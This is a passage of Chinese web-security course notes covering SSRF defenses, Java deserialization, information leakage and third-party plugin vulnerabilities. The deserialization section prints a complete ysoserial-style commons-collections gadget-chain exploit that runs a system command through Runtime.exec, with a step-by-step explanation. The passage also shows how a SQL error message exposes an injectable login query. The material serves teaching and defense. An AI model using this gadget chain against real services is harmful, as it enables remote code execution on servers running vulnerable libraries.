白名单的限制永远是最简单、最高效的防护措施。 SSRF 中的白名单，就是对用户提交上来的目标 URL 进行限制。比如，**只允许是同一个域名下的 URL**。你可以理解为，让百度图片的代理服务只允许代理 baidu.com 的 URL。但是，很多时候，因为业务功能的设计，白名单的限制并不可行。比如，上述百度图片的例子，这个功能的设计思路就是，baidu.com这个域名下能够请求各类域名下的图片资源（比如上述例子中的 sinaimg.cn）。

在这种时候，我们可以**对协议和资源类型等进行限制**。比如：对于使用协议，我们只允许HTTP 或者 HTTPS 协议；对于返回的内容，我们只允许图片格式的内容。通过这些限制，虽然不能完全阻止黑客发起 SSRF 攻击，但也大大降低了黑客能够造成的危害。

除此之外，因为 SSRF 最终的结果，是接受代理请求的服务端发生数据泄漏。所以，SSRF防护不仅仅涉及接收 URL 的服务端检测，也需要接受代理请求的服务端进行配合。在这种情况下，我们就需要用到**请求端限制**，它的防护措施主要包括两个方面。

- 第一，为其他业务提供的服务接口**尽量使用 POST**，避免 GET 的使用。因为，在 SSRF 中（以及大部分的 Web 攻击中），发起一个 POST 请求的难度是远远大于 GET 请求的。因为默认的请求方式是 GET，而发起 POST 请求，需要在发起 HTTP 请求的时候进行配置。很多安全漏洞中不包含能够配置协议的地方。在上述百度图片的例子中，黑客显然就只能发起 GET 请求。如果某个敏感服务是 POST 的，黑客就无法请求到相关资源了。
- 第二，为其他业务提供的服务接口，最好**每次都进行验证**。通过 SSRF，黑客只能发起请求，并不能获取到服务端存储的验证信息（如认证的 key 和 secret 等）。因此，只要接受代理请求的端对每次请求都进行完整的验证，黑客无法成功通过验证，也就无法完成请求了。 


### 总结

今天我们介绍了 CSRF 和 SSRF 这两种攻击方式。其中，CSRF 是黑客控制用户的浏览器发起伪造的请求，SSRF 则是黑客控制服务端发起伪造的请求。通过伪造的请求，黑客可以伪造用户或者服务器的身份，越权获取数据或者发起请求。应用中的请求接口越敏感，黑客能够造成的伤害就越大。 

除此之外，CSRF 和 SSRF 产生于正常的业务功能逻辑中，因此，我们没有办法从根本上阻止黑客发起伪造的请求。但是，你可以通过加强接口的安全验证，来避免伪造请求造成影响。在 CSRF 中，我们可以通过 CSRF Token 或者二次验证等操作来加强防护。这样，黑客无法获取到隐私信息，也就无法发起连续的请求了。在 SSRF 中，我们则需要限制可请求的域名，来限制黑客能够访问到的资源。另外，目标服务端，也需要加强接口的验证，来避免伪造请求成功通过授权。

今天的内容比较多，我总结了一个知识脑图，你可以通过它来对今天的重点内容进行复习巩固。 


### 思考题

通过今天的讲解，你可以回忆一下，你的企业是否遇到过 CSRF/SSRF 攻击呢？如果遇到过，当时是如何处理的呢？如果没有遇到过，那你负责的 Web 或者应用中，是否实现了 CSRF/SSRF 的保护逻辑呢？具体又是怎么实现的呢？


## 反序列化漏洞

我们都知道，Java 是一种高层级的语言。在 Java 中，你不需要直接操控内存，大部分的服务和组件都已经有了成熟的封装。除此之外，Java 是一种先编译再执行的语言，无法像JavaScript 那样随时插入一段代码。因此，很多人会认为，Java 是一个安全的语言。如果使用 Java 开发服务，我们只需要考虑逻辑层的安全问题即可。但是，Java 真的这么安全吗？

2015 年，Java 曾被曝出一个严重的漏洞，很多经典的商业框架都因此受到影响，其中最知名的是 **WebLogic**。据统计，在网络中公开的 WebLogic 服务有 3 万多个。其中，中国 就有 1 万多个外网可访问的 WebLogic 服务。因此，WebLogic 的反序列化漏洞意味着，国内有 1 万多台服务器可能会被黑客攻陷，其影响的用户数量更是不可估量的。

你可能要说了，我实际工作中并没有遇到过反序列化漏洞啊。但是，你一定使用过一些序列化和反序列化的工具，比如 Fastjson 和 Jackson 等。如果你关注这些工具的版本更新，就会发现，这些版本更新中包含很多修复反序列化漏洞的改动。而了解反序列化漏洞，可以让你理解，Java 作为一种先打包后执行的语言，是如何被插入额外逻辑的；也能够让你对Java 这门语言的安全性，有一个更全面的认知。

那么，到底什么是反序列化漏洞呢？它究竟会对 Java 的安全带来哪些冲击呢？遇到这些冲击，我们该怎么办呢？今天我就带你来了解反序列化漏洞，然后一起学习如何防护这样的攻击！ 


### 反序列化漏洞是如何产生的

如果你是研发人员，工作中一定会涉及很多的序列化和反序列化操作。**应用在输出某个数据的时候，将对象转化成字符串或者字节流，这就是序列化操作**。那什么是反序列化呢？没错，我们把这个过程反过来，就是**反序列化操作，也就是应用将字符串或者字节流变成对象**。

序列化和反序列化有很多种实现方式。比如 Java 中的 **Serializable** 接口（或者 Python 中的 **pickle**）可以把应用中的对象转化为二进制的字节流，把字节流再还原为对象；还有**XML 和 JSON** 这些跨平台的协议，可以把对象转化为带格式的文本，把文本再还原为对象。

那反序列化漏洞到底是怎么产生的呢？问题就出在把数据转化成对象的过程中。在这个过程中，应用需要根据数据的内容，去调用特定的方法。而黑客正是利用这个逻辑**，在数据中嵌入自定义的代码**（比如执行某个系统命令）。应用对数据进行反序列化的时候，会执行这段代码，从而使得黑客能够控制整个应用及服务器。这就是反序列化漏洞攻击的过程。

事实上，基本上所有语言都会涉及反序列化漏洞。其中，Java 因为使用范围比较广，本身体积也比较庞大， 所以被曝出的反序列化漏洞最多。下面，我就以 Java 中一个经典的反序列化漏洞 demo ysoserial 为基础，来介绍一个经典的反序列化漏洞案例，给你讲明白反序列化漏洞具体的产生过程。

最终的演示 demo 的代码如下所示。在 macOS 环境下运行这段代码，你就能够打开一个计算器。（在 Windows 环境下，将系统命令 open -a calculator 修改成 calc 即可。）注意，这里需要依赖 3.2.1 以下的 commons-collections，最新的版本已经对这个漏洞进行了修复，所以无法重现这个攻击的过程。 

```java
package org.copydays;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class Deserialize {
    public static void main(String... args) throws ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException, IOException, NoSuchMethodException {
        Object evilObject = getEvilObject();
        byte[] serializedObject = serializeToByteArray(evilObject);
        deserializeFromByteArray(serializedObject);
    }

    public static Object getEvilObject() throws ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException, NoSuchMethodException {

        String[] command = {"calc"};  // windows env
        //  String[] command = {"open -a calculator"};  // linux env
        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        command
                )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, chainedTransformer);
        String classToSerialize = "sun.reflect.annotation.AnnotationInvocationHandler";
        final Constructor<?> constructor = Class.forName(classToSerialize).getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler secondInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);
        Proxy evilProxy = (Proxy) Proxy.newProxyInstance(Deserialize.class.getClassLoader(), new Class[]{Map.class}, secondInvocationHandler);
        InvocationHandler invocationHandlerToSerialize = (InvocationHandler) constructor.newInstance(Override.class, evilProxy);
        return invocationHandlerToSerialize;

        /*
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{
                        "getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{
                        null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{
                        String.class}, new Object[]{"open -a calculator"})};
        Transformer chain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap<String, Object>();
        innerMap.put("key", "value");
        Map<String, Object> outerMap = TransformedMap.decorate(innerMap, null,
                Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHa
                        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, outerMap);
        return instance;*/
    }

    public static void deserializeAndDoNothing(byte[] byteArray) throws IOException, ClassNotFoundException {

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(byteArray));
        ois.readObject();
    }

    public static byte[] serializeToByteArray(Object object) throws IOException {

        ByteArrayOutputStream serializedObjectOutputContainer = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(serializedObjectOutputContainer);
        objectOutputStream.writeObject(object);
        return serializedObjectOutputContainer.toByteArray();
    }

    public static Object deserializeFromByteArray(byte[] serializedObject) throws IOException, ClassNotFoundException {

        ByteArrayInputStream serializedObjectInputContainer = new ByteArrayInputStream(serializedObject);
        ObjectInputStream objectInputStream = new ObjectInputStream(serializedObjectInputContainer);
        InvocationHandler evilInvocationHandler = (InvocationHandler) objectInputStream.readObject();
        return evilInvocationHandler;
    }
}
```

下面我们来分析一下这段代码的逻辑。 

在 Java 通过ObjectInputStream.readObject()进行反序列化操作的时候，ObjectInputStream 会根据序列化数据寻找对应的实现类（在 payload 中是 sun.reflect.annotation.AnnotationInvocationHandler）。如果实现类存在，Java 就会调用其 readObject 方法。因此，AnnotationInvocationHandler.readObject方法在反序列化过程中会被调用。

AnnotationInvocationHandler在readObject的过程中会调用streamVals.entrySet()。其中，streamVals是AnnotationInvocationHandler构造函数中的第二个参数。这个参数可以在数据中进行指定。而黑客定义的是 Proxy 类，也就是说，黑客会让这个参数的**实际值等于 Proxy**。 


Proxy 是动态代理，它会基于 Java 反射机制去动态实现代理类的功能。在 Java 中，调用一个 Proxy 类的 entrySet() 方法，实际上就是在调用InvocationHandler中的invoke方法。在 invoke 方法中，Java 又会调用memberValues.get(member)。其中，memberValues是AnnotationInvocationHandler构造函数中的第二个参数。

同样地，memberValues这个参数也能够在数据中进行指定，而这次黑客定义的就是LazyMap 类。member 是方法名，也就是 entrySet。因此，我们最终会调用到LazyMap.get("entrySet")这个逻辑。 


当 LazyMap 需要 get 某个参数的时候，如果之前没有获取过，则会调用 ChainedTransformer.transform进行构造。 



ChainedTransformer.transform会将我们构造的几个 InvokerTransformer 顺次执行。而在InvokerTransformer.transform中，它会通过反射的方法，顺次执行我们定义好的 Java 语句，最终调用Runtime.getRuntime().exec("open -a calculator")实现命令执行的功能。 


好了，讲了这么多，不知道你理解了多少？简单来说，其实就是以下 4 步： 

- 黑客构造一个恶意的调用链（专业术语为 POP，Property Oriented Programming），并将其序列化成数据，然后发送给应用；
- 应用接收数据。大部分应用都有接收外部输入的地方，比如各种 HTTP 接口。而这个输入的数据就有可能是序列化数据；
- 应用进行反序列操作。收到数据后，应用尝试将数据构造成对象；
- 应用在反序列化过程中，会调用黑客构造的调用链，使得应用会执行黑客的任意命令。 

那么，在这个反序列化的过程中，应用为什么会执行黑客构造的调用链呢？这是因为，反序列化的过程其实就是一个数据到对象的过程。在这个过程中，应用必须根据数据源去调用一些默认方法（比如构造函数和 Getter/Setter）。

除了这些方法，反序列化的过程中，还会涉及一些接口类或者基类（简单的如：Map、List和 Object）。应用也必须根据数据源，去判断选择哪一个具体的接口实现类。也就是说，黑客可以控制反序列化过程中，应用要调用的接口实现类的默认方法。通过对不同接口类的默认方法进行组合，黑客就可以控制反序列化的调用过程，实现执行任意命令的功能。


### 通过反序列化漏洞，黑客能做什么

学习了前面的例子，我们已经知道，通过反序列化漏洞，黑客可以调用到**Runtime.exec()**来进行命令执行。换一句话说，黑客已经能够在服务器上执行任意的命令，这就相当于间接掌控了你的服务器，能够干任何他想干的事情了。

即使你对服务器进行了一定的安全防护，控制了黑客掌控服务器所产生的影响，黑客还是能够利用反序列化漏洞，来发起**拒绝服务攻击**。

比如，曾经有人就提出过这样的方式，通过HashSet 的相互引用，构造出一个 100 层的 HashSet，其中包含 200 个 HashSet 的实例和 100 个 String，结构如下图所示。 


对于**多层嵌套的对象**，Java 在反序列化过程中，需要调用的方法呈**指数增加**。因此，尽管这个序列化的数组大概只有 6KB，但是面对这种 100 层的数据，Java 所需要执行的方法数是近乎无穷的（n 的 100 次方）。也就是说，黑客可以通过构建一个体积很小的数据，增加应用在反序列化过程中需要调用的方法数，以此来耗尽 CPU 资源，达到影响服务器可用性的目的。


### 如何进行反序列化漏洞防护 

现在，你应该对序列化和反序列化的操作产生了一些警惕。那你可能要问了，既然反序列化漏洞危害这么大，我们能不能直接剔除它们呢？

显然是不可能的，尤其是 JSON，作为目前 最热门的跨平台数据交换格式之一，其易用性是显而易见的，你不可能因为这些还没发生的危害就剔除它们。因此，我们要采取一些有效的手段，在把反序列化操作的优势发挥出来的同时，去避免反序列化漏洞的出现。我们来看 3 种具体的防护方法：认证、限制类和RASP 检测。

#### 认证和签名

首先，最简单的，我们可以通过认证，来避免应用接受黑客的异常输入。要知道，很多序列化和反序列化的服务并不是提供给用户的，而是提供给服务自身的。

比如，存储一个对象到硬盘、发送一个对象到另外一个服务中去。对于这些点对点的服务，我们可以通过加入**签名**的方式来进行防护。比如，对存储的数据进行签名，以此对调用来源进行身份校验。只要黑客获取不到密钥信息，它就无法向进行反序列化的服务接口发送数据，也就无从发起反序列化攻击了。

#### 限制序列化和反序列化的类

事实上，认证只是隐藏了反序列化漏洞，并没有真正修复它。那么，我们该如何从根本上去修复或者避免反序列化漏洞呢？

在反序列化漏洞中，黑客需要构建调用链，而调用链是基于类的默认方法来构造的。然而，大部分类的默认方法逻辑很少，无法串联成完整调用链。因此，在调用链中通常会涉及非常规的类，比如，刚才那个 demo 中的 InvokerTransformer。我相信 99.99% 的人都不会去序列化这个类。因此，我们可以通过**构建黑名单**的方式，来检测反序列化过程中调用链的异常。

在 **Fastjson 的配置文件**中，就维护了一个黑名单的列表，其中包括了很多可能执行代码的方法类。这些类都是平常会使用，但不会序列化的一些工具类，因此我们可以将它们纳入到黑名单中，不允许应用反序列化这些类（在最新的版本中，已经更改为 hashcode 的形式）。

我们在日常使用 Fastjson 或者其他 JSON 转化工具的过程中，需要注意避免**序列化和反序列化接口类**。这就相当于**白名单**的过滤：只允许某些类可以被反序列化。我认为，只要你在反序列化的过程中，避免了所有的接口类（包括类成员中的接口、泛型等），黑客其实就没有办法控制应用反序列化过程中所使用的类，也就没有办法构造出调用链，自然也就无法利用反序列化漏洞了 。

#### RASP 检测

通常来说，我们可以依靠**第三方插件**中自带的黑名单来提高安全性。但是，如果我们使用的是 Java 自带的序列化和反序列化功能（比如ObjectInputStream.resolveClass），那我们该怎么防护反序列化漏洞呢？如果我们想要替这些方法实现黑名单的检测，就会涉及原生代码的修改，这显然是一件比较困难的事。

为此，业内推出了 **RASP（Runtime Application Self-Protection，实时程序自我保护）**。RASP 通过 **hook** 等方式，在这些关键函数的调用中，**增加一道规则的检测**。这个规则会判断应用是否执行了非应用本身的逻辑，能够在不修改代码的情况下对反序列化漏洞攻击实现拦截。简单来说，通过 RASP，我们就能够**检测到应用中的非正常代码执行操作**。

我个人认为，RASP是最好的检测反序列化攻击的方式。 我为什么会这么说呢？这是因为，如果使用认证和限制类这样的方式来检测，就需要一个一个去覆盖可能出现的漏洞点，非常耗费时间和精力。而 RASP 则不同，它通过 hook 的方式，直接**将整个应用都监控了起来**。因此，能够做到覆盖面更广、代码改动更少。

但是，因为 RASP 会 hook 应用，相当于是介入到了应用的正常流程中。而 RASP 的检测规则都不高效，因此，它会给应用带来一定的**性能损耗**，不适合在高并发的场景中使用。但是，在应用不受严格性能约束的情况下，我还是更推荐使用 RASP。这样，开发就不用一个一个去对漏洞点进行手动修补了。 


### 总结

我们首先讲了反序列化漏洞的产生原理，即黑客通过构造恶意的序列化数据，从而控制应用在反序列化过程中需要调用的类方法，最终实现任意方法调用。如果在这些方法中有命令执行的方法，黑客就可以在服务器上执行任意的命令。

对于反序列化漏洞的防御，我们主要考虑两个方面：认证和检测。对于面向内部的接口和服务，我们可以采取认证的方式，杜绝它们被黑客利用的可能。另外，我们也需要对反序列化数据中的调用链进行黑白名单检测。成熟的第三方序列化插件都已经包含了这个功能，暂时 可以不需要考虑。最后，如果没有过多的性能考量，我们可以通过 RASP 的方式，来进行一个更全面的检测和防护。

最后，把今天的内容总结了一张知识脑图。 


### 思考题

你可以去了解一下，你所使用的序列化和反序列化插件（比如 Fastjson、Gson 和 Jackson等），是否被曝出过反序列化漏洞？然后结合今天的内容思考一下，这些反序列化漏洞，可能会给你带来什么影响。 


## 信息泄漏

你平时在 Debug 的时候，一定首先会去查看错误信息。根据错误信息，你能够了解究竟是什么情况引发了什么样的错误。同样地，黑客也能够通过错误信息，推断出你的后台代码逻辑。那么，黑客究竟是怎么做的呢？

### 错误信息会泄漏代码逻辑

当黑客在登录某个页面时，在用户名位置输入一个单引号，在密码位置输入一个“g”之后，就会出现如下的错误信息。 

```sql
An Error Has Occurred.
Error Message:
	System.Data.OleDb.OleDbException: Syntax error (missing operator) in query expression 'username = ''' and password = 'g''. at
	System.Data.OleDb.OleDbCommand.ExecuteCommandTextErrorHandling ( Int32 hr) at
	System.Data.OleDb.OleDbCommand.ExecuteCommandTextForSingleResult ( tagDBPARAMS dbParams,  Object& executeResult) at 
```

从这个错误信息中，我们可以看到，网页最终执行了一个 SQL 语句，这个 SQL 语句的部分内容为username = ''' and password = 'g'。因此，后台的大致逻辑应该是下面这样的。

- 第一，错误信息反馈的是 Syntax error，即语法错误。在密码位置输入单个字母“g”肯定不会引起错误，所以，这个 SQL 语句是因为多了一个单引号导致的报错。而如果使用了PreparedStatement 等方法，是不会产生这个错误的。因此，后台的 **SQL 查询应该是直接采用的字符串拼接，且没有过滤单引号**。
- 第二，错误信息中显示了部分的 WHERE 条件是username = '' and password =''。这又是一个登录的逻辑，所以，只要用户名和密码正确，这个 SQL 语句会返回黑客需要的用户信息。因此，后台的 **SQL 语句应该是形如 select from where 的格式**。根据这些信息，黑客很容易就可以发起 SQL 注入攻击了。

那错误信息中包含的敏感信息这么多，怎么避免被直接展示到前端呢？我们可以通过正确地配置文件，来进行合适的错误处理。比如，在 **PHP 中**，我们可以进行如下配置： 

```sh
error_reporting = E_ALL				 ; 向 PHP 报告发生的每个错误
display_errors = Off 				 ; 不显示满足上条指令所定义规则的所有错误报告
log_errors = On						 ; 决定日志语句记录的位置
log_errors_max_len = 1024			 ; 设置每个日志项的最大长度
error_log = /var/log/php_error.log	 ; 指定产生的错误报告写入的日志文件位置
```

在 **Java Spring 中**，我们也可以通过配置 ExceptionHandler 等来进行处理。避免错误信息泄漏代码逻辑，一方面是要通过正确的配置文件，避免错误信息被展示到前端；另一方面是要对错误信息进行检测，这里就需要用到“黑盒”检测了。 

所谓“**黑盒（Black Box Testing，功能测试）**”，就是在不获取代码的情况下，直接运行应用，然后对应用的请求和响应进行扫描。比如，在错误信息泄漏的场景中，“黑盒”检测可以向应用发起一些必然会导致错误的请求（比如上述例子中的单引号），然后观察应用是返回完整的错误日志，还是返回某些经过处理的页面。

好了，现在你应该明白了，为啥错误信息会泄漏代码逻辑。实际上，**错误信息泄漏属于一种间接的信息泄漏方式**。间接的信息泄漏方式主要是通过拼凑各种零散信息，还原出代码整体的面貌，然后有针对性地发起攻击。所以我们常说，黑客的攻击本身就是一个“聚沙成塔”的过程。


### 除了错误信息，还有什么地方会泄漏代码逻辑

除了错误信息之外，间接的信息泄漏方式还有两种：**返回信息泄漏和注释信息泄漏**。

#### 注释信息泄露

注释信息你应该很熟悉。因为所有的前端代码基本都不需要编译就可以展示在浏览器中，所以黑客很容易就可以看到**前端代码中的注释信息**。但是，如果这些注释信息中出现服务器IP、数据库地址和认证密码这样的关键信息。一旦这些关键信息被泄漏，将会造成十分严重的后果。

那该如何避免关键的注释信息出现在线上的代码中呢？我们经常会使用一种叫作“白盒”的代码检测方法。

所谓“**白盒（White Box Testing，结构测试）**”，即直接获取到线上的源代码，然后对它进行扫描。“白盒”扫描注释信息的原理比较简单，因为每一种语言的注释都会带有**特殊的标记**（比如 Java 和 PHP 中的 /* 等），可以比较准确地被识别出来。除此之外，“白盒”检测通常还会被用来做一些检测代码漏洞或者逻辑漏洞的工作。

#### 返回信息泄露

你可以回忆一下，在前面讲 SSRF攻击的时候，我们模拟过这样一个场景：服务端在请求一个图片地址的时候，会根据地址的“存活”情况和返回数据的类型，分别返回三种结果：“图片不存在”“格式错误”以及图片正常显示。而黑客正是通过服务端返回信息的逻辑，利用一个**请求图片的 SSRF**，摸清整个后端的服务“存活情况”。 

类似的多种返回状态的场景还有很多，你可以想想自己平时工作中有没有遇到过。这里我再说一个常见的。当你在**登录应用的时候**，应用的返回逻辑可能是这样的：如果输入的用户名和密码正确，则登录成功；如果应用没有这个用户，则返回“用户名不存在”；如果输入的用户名和密码不匹配，则返回“密码错误”。

尽管这样清晰的登录提示对于用户体验来说，确实是一个较优解，但这个逻辑同样也暴露了过多的信息给黑客。黑客只需要不断地发起登录请求，就能够知道应用中存在的用户名，然后通过遍历常见的弱密码进行尝试，很容易就能够**猜对密码**。这样一来，猜对密码的成功率就比尝试同时猜测用户名和密码要高很多。

实际上，返回信息过于明确不算是代码层面的漏洞，更多的是产品层面的漏洞。因此，理论上没有任何技术手段能够对这种漏洞进行检测，只能依靠**人为的分析审计**来避免。解决方案也比较简单，直接**将返回信息模糊化、统一化**即可。比如，在上述登录的场景中，我们可以将两种登录失败的返回信息，统一修改为“用户名不存在或密码错误”。这样一来，既避免了用户体验受到太大影响，又消除了关键信息被黑客获取的隐患。


### 常见的直接泄漏方式

在间接的泄漏方式中，黑客可以通过“蛛丝马迹”，推断出服务代码的逻辑。但是信息泄漏最普遍的方式还是直接泄漏 。这里我会讲两种常见的直接泄漏方式。

#### 版本管理工具中的隐藏文件

第一种泄漏方式与版本管理工具中的隐藏文件有关。

在开发应用的过程中，你一定使用过**版本管理工具（比如 SVN 和 Git）**，通过这些工具，你能够很方便地进行代码回滚、备份等操作。那你有没有想过，版本管理工具为什么这么方便呢？它的工作原理又是怎么样的呢？我们以 SVN 为例来说一说。

SVN 会在项目目录中创建一个**.svn 文件夹**，里面保存了应用每一个版本的源文件信息，这也是 SVN 实现代码回滚的数据基础。如果 SVN 可以通过.svn 中的数据提取应用任意版本的代码，那黑客也可以。只要你没有在上线代码的时候删除其中的.svn 目录，那就代表黑客可以通过.svn 中的 URL 访问里面的所有文件。接下来，只需要通过执行简单的 脚本，黑客就可以回溯出一个完整版本的代码了。

对于这种因为目录中额外内容（.svn/.git）导致的源码泄漏，我们一方面需要对线上代码进行**人工的代码审查**，确保无关的文件和文件夹被正确地清除；另一方面，我们也可以**在 HTTP 服务中对部分敏感的路径进行限制**。比如，在 Apache httpd 中配置下面的内容，来禁止黑客对.svn 和.git 目录的访问。 

```xml
<DirectoryMatch \.(svn|git)>
    Order allow,deny
    Deny from all
</DirectoryMatch>
```

#### 上传代码到 GitHub

除此之外，还有一种最常见、也最不容易注意的泄漏方式，那就是上传代码到 GitHub上。

我们知道，Git 除了是一个版本管理工具之外，还是一个很流行的代码管理工具。除了前面讲过的隐藏文件漏洞之外（Git 会生成.git，同样包含应用各种版本的文件信息），Git 还存在将代码**上传到公开平台**的问题。但是，使用 GitHub 上传代码通常属于**个人行为**，所以，我们很难从技术层面上进行预防。

那我们有没有一些有效的防护措施，可以尽可能地提高安全性呢？

我个人认为，公司应该从**加强员工安全意识的培训、强化公司管理制度**入手，避免员工私自上传代码。除此之外，公司还可以对 GitHub 发起巡检（比较知名的工具有 **Hawkeye**），通过定期检索公司代码的关键字（比如常用的包名、域名等）来进行检测。通过这些方式匹配到的结果，很可能就是员工私自公开的代码。确认之后，我们就可以联系上传的人员进行删除了。


### 总结 

信息泄漏这类漏洞很容易理解，但它能够造成的危害却不容小觑。基本上，所有攻击的第一步都是从信息泄漏开始的。而且黑客没有办法攻击一个未知的系统，所以黑客会通过这些泄漏的信息，去推断出应用的整体架构和逻辑。

信息泄漏的方式和原因有很多，这其中，除了黑客主动发起攻击导致的信息泄露之外，有很多非技术原因导致的信息泄漏。所以，相应的防护手段也比较零散。不过总体来说，我们可以从以下几个方面进行防护： 

- 屏蔽信息：通过技术手段，将不该被访问的资源进行屏蔽，从而避免信息泄漏的产生；
- 代码检测：从“白盒”和“黑盒”两个方向，对代码、应用等进行检测，对可能的泄漏进行预警；
- 人工审计：对于非技术原因造成的泄漏，加强人工审计的工作。同时从公司制度上，去提高员工的安全意识。 

今天的内容，总结了一张知识脑图。 


### 思考题

通过今天的讲解，你可以回忆一下，你的公司或者你负责的应用当中，是否发生过类似的信息泄漏事件呢？如果发生过，对你的公司或者应用都造成了什么影响呢？最后又是如何解决的呢？ 


## 插件漏洞

在讲反序列化漏洞的时候，我们说过，这个漏洞其实就存在于 Fastjson、Jackson 等知名的 JSON 解析库中，跟你自己写的代码没有太多关系，所以极难掌控。也就是说，在开发应用的过程中，尽管你的代码很安全了，黑客还是能够通过插件漏洞对应用发起攻击（我文中提到的**插件，是第三方的插件、依赖库、工具和框架等的统称**）。

说到这儿，想不想测试一下你的插件是否安全？在这里，我准备了几个问题，你可以看看自己是否对所用的插件了如指掌。

- 你所使用的所有插件的版本是什么？（包括前端和后端，直接引用和间接引用） 
- 你所使用的这些插件，是否存在漏洞，是否不被维护了，是否被废弃了？
- 你所使用的这些插件，会在哪些地方发布更新信息和漏洞信息？
- 你所使用的这些插件，是否会定期更新？你是否会对更新插件进行完整的测试？
- 你所使用的这些插件，在安全方面，有哪些配置需要关注? 

对于这些问题，如果你还没办法很快回答上来，那你的应用很有可能要受到插件漏洞的威胁了。所以，我接下来要讲的内容，你要认真听了。

### 要重视插件漏洞

在谈论安全漏洞的时候，你应该经常会听到“**0 day**”（中文译为“零日”）这个词。到底什么是“0 day”呢？“0 day”，即在插件发布修复漏洞的安全补丁之前，黑客就已经知道漏洞细节的漏洞。换一句话说，“0 day”就是只有黑客知晓的未公开漏洞。

说到这里，不知道你有没有听说过一个叫作 **脏牛（CVE-2016-5195）**的 Linux 系统漏洞，这个漏洞可以实现提权操作，也就是让低权限的用户获得较高权限。在这个漏洞被公开曝出之前，它已经存在于 Linux 系统中长达 9 年了，直到现在，仍然有很多黑客通过这个漏洞获取较高的系统权限。

而这其实就是一个“0 day”漏洞。因为只有黑客知道这个漏洞，而我们连这个漏洞是什么都不知道，所以“0 day”几乎无法防御。除此之外，“0 day”还具备极高的攻击有效性，可以说只要应用使用了对应的插件，黑客几乎“战无不胜”。甚至在黑市上，“0day”漏洞都可以作为一种资产在黑客间进行**交易**。

那除了“脏牛”，还有两个知名的插件漏洞，不知道你有没有耳闻。

一个是**心脏滴血（CVE-2014-0160）**。心脏滴血是加解密插件 OpenSSL 中的漏洞，OpenSSL 曾为所有 HTTPS 网站提供数据加密保护。这个漏洞让任何人都可以通过网络读取 OpenSSL 系统内存中的数据，解密所有的加密流量。这让当时至少一半的 HTTPS 站点都受到了影响。

另一个是 **Structs 2 的漏洞（CVE-2017-5638）**。这个漏洞在 2017 年导致美国三大信用机构之一的Equifax，泄漏了 1.4 亿用户的姓名、SSN（美国身份证号）、生日和地址 等。受影响的用户相当于近一半的美国人口。

> 详细内容参见：[HackerWords：Exploit](HackerWords.md)

总之，对于应用来说，不只代码本身会产生漏洞，除了代码之外的一切也都有可能出现漏洞。从提供加解密功能的工具 OpenSSL，到提供网络服务的框架 Structs 2，甚至是基础的操作系统 Linux，都有可能出现各种漏洞。插件漏洞既能够破坏插件本身的功能，也能让黑客以插件为跳板，实现控制整个应用甚至是服务器。

### 建立插件漏洞的防护体系

那我们该如何对插件漏洞进行防护呢？实际上，修复和维护插件漏洞的过程，就是在和黑客竞赛的过程。业内有大量专业的安全研究人员，专注于对这些插件漏洞进行研究。因此，我们可以使用行业内的现有研究成果，来帮助我们提升插件的安全性，建立插件漏洞的防护体系。

具体来说，我总结了三步，但其实这三步并非完全递进的。

#### 第一步：整理插件，剔除无用插件

避免插件漏洞威胁的第一步，自然是了解自己的应用都使用了哪些插件。我就以 **Java 中的Maven 插件管理工具**为例，详细说一下整理和剔除插件的过程。

如果使用 Maven 作为插件管理工具的话，你一定会先通过 **POM 文件**去找到自己所使用的插件（即所有的 Dependency）。但是，Dependency 只是你的应用中直接使用的插件，这些插件本身也会引用很多其他插件。所以大部分应用的**插件依赖树**十分复杂，那你该如何整理全部的插件呢？

首先，你可以通过 **Maven Dependency Plugin**帮助自己自动分析插件依赖树。除了展示出当前 Maven 工程中所有的使用插件，Maven Dependency Plugin 还会对插件的使用情况做进一步地分析，帮你找出在 POM 中却没在代码中使用的插件。这样，你就可以对这一类无用的插件引用及时剔除，自然也就能够减少插件漏洞出现的可能性。

比如，在下面这个分析结果中，通过mvn dependency:analyze的分析，我们发现了JUnit 和 Logback 这类“虽然被引用但却没有被使用”的插件。既然没有被使用，那我们 就可以很放心地进行删除了。 

```verilog
$ mvn dependency:tree dependency:analyze
...
[INFO] --- maven-dependency-plugin:2.8:tree (default-cli) @ client ---
[INFO] com.coveros:sample-maven:jar:0.0.1-SNAPSHOT
[INFO] +- junit:junit:jar:4.11:test
[INFO] | \- org.hamcrest:hamcrest-core:jar:1.3:test
[INFO] +- org.slf4j:slf4j-api:jar:1.7.5:compile
[INFO] \- ch.qos.logback:logback-classic:jar:1.0.13:test
[INFO] \- ch.qos.logback:logback-core:jar:1.0.13:test
...
[INFO] --- maven-dependency-plugin:2.8:analyze (default-cli) @ client ---
[WARNING] Unused declared dependencies found:
[WARNING] junit:junit:jar:4.11:test
[WARNING] ch.qos.logback:logback-classic:jar:1.0.13:test
...
```


